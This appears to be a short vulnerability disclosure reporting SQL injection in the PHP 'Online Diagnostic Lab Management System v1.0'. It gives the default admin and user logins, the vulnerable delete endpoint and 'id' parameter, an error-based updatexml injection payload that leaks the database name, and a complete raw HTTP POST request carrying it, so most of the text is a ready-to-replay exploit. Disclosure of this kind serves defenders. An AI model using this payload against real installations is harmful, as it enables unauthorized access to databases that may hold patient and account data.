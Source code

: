 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Dig-Bick

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/classes/Users.php?f=delete

Vulnerability location: /odlms/classes/Users.php?f=delete,id

dbname=odlms_db,length=8

[+] Payload: id=6'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=6'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191270955-56ae2532-64ff-4229-82d6-3ec3e0243d02.png)
